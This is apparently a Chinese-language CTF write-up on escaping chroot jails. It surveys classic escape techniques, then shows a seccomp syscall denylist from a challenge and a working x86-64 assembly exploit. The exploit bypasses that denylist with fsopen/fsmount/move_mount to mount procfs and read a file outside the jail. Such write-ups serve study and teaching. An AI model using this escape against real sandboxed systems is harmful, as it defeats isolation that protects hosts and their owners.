

> Chroot 从来不是一个安全特性。

## chroot 逃逸简析

chroot 可以改变某个进程及其子进程的根目录，通常用于隔离应用程序，但它本身并不提供严格的安全隔离。因此 chroot 并不是一个安全特性，却经常被误用在安全环境中。

这时候找到一个 github 仓库：[chw00t](https://github.com/earthquake/chw00t)：

### 工作原理

- chw00t 主要利用了进程的两个重要属性：当前工作目录（CWD）和根目录（Root）。
- CWD 可以通过像 cd 命令这样的操作轻松改变。
- 改变根目录则更加困难，通常需要使用 chroot() 系统调用或 chroot 系统工具，而这两者都需要 root 权限。
- 当你拥有 root 权限时，可以调用 chroot() 系统调用来改变进程属性结构中的根目录，这个新的根目录我们称之为根障碍。

- **经典 `chdir`**

  先考虑一个经典的例子：

  - 攻击者有 root 权限，但是被 chroot 到了 `/sandbox` 下

  因为 chroot 的特性：「如果进程的当前工作目录（CWD）在调用 chroot() 之前没有改变，那么它仍然可以访问原始的根目录」，这时候攻击者可以执行：

  ```bash
  chdir("..")
  chroot(".")
  ```

  来进行基本的逃逸。

  应对手段也很简单：chroot 前先 `chdir("/sandbox")` 就行了。

- 外部目录文件描述符

  与经典 `chdir` 类似，这里虽然不能再 `chdir("..")` 逃逸了，但是若有外部目录的文件描述符被错误保留下来了，就可以通过它们访问外部文件。

- **挂载 procfs**

  这种逃逸方法多次出现在 ctf 比赛中：

  - 在 chroot 环境内部，尝试将 `procfs` 挂载到一个目录上，例如 /mnt。这可以通过命令 `mount -t proc proc /mnt` 来完成。
  - 遍历 `/proc` 目录下的内容，特别是 `/proc/[pid]/root` 和 `/proc/[pid]/cwd` 这样的链接。这些链接分别指向每个进程的根目录和当前工作目录。
  - 查找指向 chroot 环境之外的 root 或 cwd 链接。如果找到了这样的进程，它的 root 或 cwd 可能会指向原始的根文件系统，而不是 chroot 环境。
  - 一旦找到这样的进程，可以尝试通过这些链接来访问原始的根文件系统。例如，通过 `/proc/[pid]/root` 访问的文件系统将不受 chroot 环境的限制。

- 再次挂载根目录

  ```bash
  mkdir /mnt
  mount --bind / /mnt
  ```

- ptrace 注入

  用 ptrace 将 shellcode 注入到外部进程，

---

## 题目分析与利用

题目提供了 Root 权限，但是同时也启用了 seccomp 沙箱的保护：

```bash
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x44 0xc000003e  if (A != ARCH_X86_64) goto 0070
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x42 0x00 0x40000000  if (A >= 0x40000000) goto 0070
 0004: 0x15 0x41 0x00 0x000000a1  if (A == chroot) goto 0070
 0005: 0x15 0x40 0x00 0x000000a5  if (A == mount) goto 0070
 0006: 0x15 0x3f 0x00 0x00000110  if (A == unshare) goto 0070
 0007: 0x15 0x3e 0x00 0x000000a9  if (A == reboot) goto 0070
 0008: 0x15 0x3d 0x00 0x00000065  if (A == ptrace) goto 0070
 0009: 0x15 0x3c 0x00 0x00000136  if (A == process_vm_readv) goto 0070
 0010: 0x15 0x3b 0x00 0x00000137  if (A == process_vm_writev) goto 0070
 0011: 0x15 0x3a 0x00 0x00000130  if (A == open_by_handle_at) goto 0070
 0012: 0x15 0x39 0x00 0x0000009b  if (A == pivot_root) goto 0070
 0013: 0x15 0x38 0x00 0x000000a3  if (A == acct) goto 0070
 0014: 0x15 0x37 0x00 0x000000f8  if (A == add_key) goto 0070
 0015: 0x15 0x36 0x00 0x00000141  if (A == bpf) goto 0070
 0016: 0x15 0x35 0x00 0x00000131  if (A == clock_adjtime) goto 0070
 0017: 0x15 0x34 0x00 0x000000e3  if (A == clock_settime) goto 0070
 0018: 0x15 0x33 0x00 0x00000038  if (A == clone) goto 0070
 0019: 0x15 0x32 0x00 0x000000ae  if (A == create_module) goto 0070
 0020: 0x15 0x31 0x00 0x000000b0  if (A == delete_module) goto 0070
 0021: 0x15 0x30 0x00 0x00000139  if (A == finit_module) goto 0070
 0022: 0x15 0x2f 0x00 0x000000b1  if (A == get_kernel_syms) goto 0070
 0023: 0x15 0x2e 0x00 0x000000ef  if (A == get_mempolicy) goto 0070
 0024: 0x15 0x2d 0x00 0x000000af  if (A == init_module) goto 0070
 0025: 0x15 0x2c 0x00 0x000000ad  if (A == ioperm) goto 0070
 0026: 0x15 0x2b 0x00 0x000000ac  if (A == iopl) goto 0070
 0027: 0x15 0x2a 0x00 0x00000138  if (A == kcmp) goto 0070
 0028: 0x15 0x29 0x00 0x00000140  if (A == kexec_file_load) goto 0070
 0029: 0x15 0x28 0x00 0x000000f6  if (A == kexec_load) goto 0070
 0030: 0x15 0x27 0x00 0x000000fa  if (A == keyctl) goto 0070
 0031: 0x15 0x26 0x00 0x000000d4  if (A == lookup_dcookie) goto 0070
 0032: 0x15 0x25 0x00 0x000000ed  if (A == mbind) goto 0070
 0033: 0x15 0x24 0x00 0x00000117  if (A == move_pages) goto 0070
 0034: 0x15 0x23 0x00 0x0000012f  if (A == name_to_handle_at) goto 0070
 0035: 0x15 0x22 0x00 0x000000b4  if (A == nfsservctl) goto 0070
 0036: 0x15 0x21 0x00 0x0000012a  if (A == perf_event_open) goto 0070
 0037: 0x15 0x20 0x00 0x00000087  if (A == personality) goto 0070
 0038: 0x15 0x1f 0x00 0x000000b2  if (A == query_module) goto 0070
 0039: 0x15 0x1e 0x00 0x000000b3  if (A == quotactl) goto 0070
 0040: 0x15 0x1d 0x00 0x000000f9  if (A == request_key) goto 0070
 0041: 0x15 0x1c 0x00 0x000000ee  if (A == set_mempolicy) goto 0070
 0042: 0x15 0x1b 0x00 0x00000134  if (A == setns) goto 0070
 0043: 0x15 0x1a 0x00 0x000000a4  if (A == settimeofday) goto 0070
 0044: 0x15 0x19 0x00 0x000000a7  if (A == swapon) goto 0070
 0045: 0x15 0x18 0x00 0x000000a8  if (A == swapoff) goto 0070
 0046: 0x15 0x17 0x00 0x0000008b  if (A == sysfs) goto 0070
 0047: 0x15 0x16 0x00 0x0000009c  if (A == _sysctl) goto 0070
 0048: 0x15 0x15 0x00 0x000000a6  if (A == umount2) goto 0070
 0049: 0x15 0x14 0x00 0x00000086  if (A == uselib) goto 0070
 0050: 0x15 0x13 0x00 0x00000143  if (A == userfaultfd) goto 0070
 0051: 0x15 0x12 0x00 0x00000088  if (A == ustat) goto 0070
 0052: 0x15 0x11 0x00 0x000001b3  if (A == 0x1b3) goto 0070
 0053: 0x15 0x10 0x00 0x000001b2  if (A == 0x1b2) goto 0070
 0054: 0x15 0x0f 0x00 0x000001b6  if (A == 0x1b6) goto 0070
 0055: 0x15 0x0e 0x00 0x000001a8  if (A == 0x1a8) goto 0070
 0056: 0x15 0x0d 0x00 0x0000013d  if (A == seccomp) goto 0070
 0057: 0x15 0x0c 0x00 0x0000009d  if (A == prctl) goto 0070
 0058: 0x15 0x0b 0x00 0x0000009e  if (A == arch_prctl) goto 0070
 0059: 0x15 0x0a 0x00 0x000000ae  if (A == create_module) goto 0070
 0060: 0x15 0x09 0x00 0x000000af  if (A == init_module) goto 0070
 0061: 0x15 0x08 0x00 0x000000b0  if (A == delete_module) goto 0070
 0062: 0x15 0x07 0x00 0x000000b1  if (A == get_kernel_syms) goto 0070
 0063: 0x15 0x06 0x00 0x000000b2  if (A == query_module) goto 0070
 0064: 0x15 0x05 0x00 0x000000d5  if (A == epoll_create) goto 0070
 0065: 0x15 0x04 0x00 0x00000123  if (A == epoll_create1) goto 0070
 0066: 0x15 0x03 0x00 0x000001a9  if (A == 0x1a9) goto 0070
 0067: 0x15 0x02 0x00 0x000001aa  if (A == 0x1aa) goto 0070
 0068: 0x15 0x01 0x00 0x000001ab  if (A == 0x1ab) goto 0070
 0069: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0070: 0x06 0x00 0x00 0x00000000  return KILL
```

禁用了非常多的系统调用，按照常规思路来看 `mount`, `chroot`, `ptrace` 之类的都被禁用了完全无从下手，但关注到最近 kernel 版本新增的 syscall 就会发现 `fsmount` 系列的系统调用，提供了更细粒度的控制，允许更安全和更精确地配置挂载选项和属性，于是思路就可以确定为「挂载 `procfs`」进行逃逸：

1. 打开 proc 文件系统：
   使用 fsopen 打开 proc 文件系统。这个调用返回一个文件系统描述符，用于后续的操作。

2. 配置文件系统：
   使用 fsconfig 配置文件系统。对于 proc 文件系统，可能不需要特别的配置。

3. 挂载文件系统：
   使用 fsmount 将文件系统挂载到一个目录。这需要指定文件系统描述符和挂载属性。

4. 移动挂载点：
   使用 move_mount 将挂载点移动到 chroot 环境之外的目标位置。

```c
fsopen("proc", FSOPEN_CLOEXEC);
fsconfig(fs_fd, FSCONFIG_CMD_CREATE, NULL, NULL, 0);
fsmount(fs_fd, FSOPEN_CLOEXEC, MOUNT_ATTR_RDONLY);
mkdir("/mnt");
move_mount(mount_fd, "", AT_FDCWD, "/mnt", MOVE_MOUNT_F_EMPTY_PATH);
```

题目沙箱比较麻烦，反正就几行代码直接用汇编来写：

```c
section .data
    proc db "proc", 0
    errMessage db "[-] Error: negative return value.", 0xa, 0x0
    mnt_dir db "/mnt", 0
    null_byte db "", 0
    flag_addr db "/mnt/1/root/flag", 0

section .text
global _start
_start:

    mov rbp, rsp

; fsopen("proc", FSOPEN_CLOEXEC)
    mov rdi, proc
    push 1
    pop rsi
    mov rax, 0x1ae
    syscall
    test rax, rax
    js .errExit
    push rax

; fsconfig(fs_fd, FSCONFIG_CMD_CREATE, NULL, NULL, 0)
    mov rdi, [rbp - 8]
    push 6
    pop rsi
    xor rdx, rdx
    xor r10, r10
    xor r8, r8
    mov rax, 431
    syscall
    test rax, rax
    js .errExit

; fsmount(fs_fd, FSOPEN_CLOEXEC, MOUNT_ATTR_RELATIME)
    mov rdi, [rbp - 8]
    push 1
    pop rsi
    xor rdx, rdx
    mov rax, 432
    syscall
    test rax, rax
    js .errExit
    push rax ; rbp - 0x10

    ; close 不 close 的无所谓了
    mov rdi, [rbp - 8]
    mov rax, 3
    syscall
    test rax, rax
    js .errExit

    mov rdi, mnt_dir
    mov rsi, 0777
    mov rax, 83
    syscall
    test rax, rax
    js .errExit

; move_mount(fd, "", AT_FDCWD, "/mnt", MOVE_MOUNT_F_EMPTY_PATH)
    mov rdi, [rbp - 0x10]
    mov rsi, null_byte
    mov rdx, -100
    mov r10, mnt_dir
    mov r8, 4
    mov rax, 429
    syscall
    test rax, rax
    js .errExit

    mov rdi, flag_addr
    xor esi, esi
    push 2
    pop rax
    syscall
    test rax, rax
    js .errExit
    push rax

    mov rdi, 1
    mov rsi, [rbp - 0x18]
    mov rdx, 0
    mov r10, 0x100
    mov rax, 0x28
    syscall
    js .errExit
    push rax

    mov eax, 60
    xor edi, edi
    syscall

.errExit:
    push 1
    pop rax
    push 1
    pop rdi
    mov rsi, errMessage
    mov rdx, 35
    syscall
    mov rax, 60
    mov rdi, 1
    syscall
```

逃逸成功读到 flag：



---

## References

\[1. \] [chw00t](https://github.com/earthquake/chw00t) . _Balazs Bucsay_
\[2. \] [How to break out of a chroot() jail](http://www.unixwiz.net/techtips/mirror/chroot-break.html) . _Simon_
